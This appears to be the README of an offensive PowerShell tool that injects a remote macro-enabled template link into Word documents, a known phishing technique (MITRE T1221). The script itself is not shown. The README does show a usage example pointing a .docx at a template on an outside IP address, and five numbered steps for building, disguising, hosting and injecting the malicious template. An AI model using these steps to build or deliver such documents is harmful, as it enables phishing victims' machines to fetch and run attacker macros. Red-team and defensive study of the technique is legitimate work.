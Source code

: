 ## Template Injection

Injects Microsoft template with macro into a Microsoft Word document.  

### Requirements

PowerShell version 5 or greater.

### Usage

usage: .\TemplateInjection.ps1 DOCX URL

positional arguments:
  DOCX            .docx file to inject template into
  URL             remote Microsoft template

Example of use
To inject remote http url:

.\TemplateInjection.ps1 C:\dump\report.docx http:\\192.168.238.141\template.dot

### Basic steps

1. Create a Microsoft Word template with macro, and save as a .dotm file (Word Macro-Enabled Template (*.dotm)
2. Rename above to extension .dot (Word 97-2003 Template).
3. Create a new document from this template, and save as a Word .docx file.
4. Move the .dot file to a remote web server.
5. Use the PowerShell script to inject reference of the remote template location into the .docx file.

### References

- Mitre Attack: Template Injection https://attack.mitre.org/techniques/T1221/
- Phishing with MS Office: Inject Macros from a remote dotm template. https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros
- RemoteInjector: Python script to Inject remote template link into word document. https://github.com/JohnWoodman/remoteinjector
- Microsoft: Internet Macros Blocked. https://learn.microsoft.com/en-us/deployoffice/security/internet-macros-blocked





